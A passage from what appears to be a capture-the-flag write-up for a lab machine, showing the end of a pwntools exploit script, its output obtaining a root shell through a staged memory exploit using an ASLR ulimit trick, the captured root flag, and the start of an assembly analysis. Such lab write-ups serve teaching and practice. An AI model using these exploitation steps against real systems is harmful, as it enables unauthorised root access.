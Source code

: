     goodluck.sendline(fn)
    log.info(f'Cleaning up {fn}')
    sshConn.unlink(fn)
    goodluck.interactive(prompt='')
    

This script returns a root shell:

    
    
    root@kali# python3 rootpwn.py 
    [+] Connecting to 10.10.10.27 on port 22: Done
    [*] xalvas@10.10.10.27:
        Distro    Ubuntu 16.04
        OS:       linux
        Arch:     i386
        Version:  4.4.0
        ASLR:     Disabled
        Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
    [+] Starting remote process '/home/xalvas/app/goodluck' on 10.10.10.27: pid 11358
    [*] Writing Stage 1 exploit to /tmp/nflklqsofz
    [+] Found secret: 0x10d0f1b
    [*] Writing Stage 2 exploit to /tmp/nflklqsofz
    [+] Address of next buffer: 0x3221224432
    [+] Stack address space: 0x3220041728 - 0x3221225472
    [*] Writing Stage 3 exploit to /tmp/nflklqsofz
    [*] Cleaning up /tmp/nflklqsofz
    [*] Switching to interactive mode
    # id
    uid=0(root) gid=1000(xalvas) groups=1000(xalvas),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
    

And I can read `root.txt`:

    
    
    # cat /root/root.txt
    9be653e0************************
    

## Beyond Root

### Assembly

At the start of `main`, there’s a short section of assembly:

    
    
    int main(int argc, char * argv[]) {
    asm(
    "push $0x00000001\n"
    "push $0x0003add6\n"
    "push $0xb7e1a000\n"
    "call 0x37efcd50\n"
    "add $0x0c,%esp\n"
    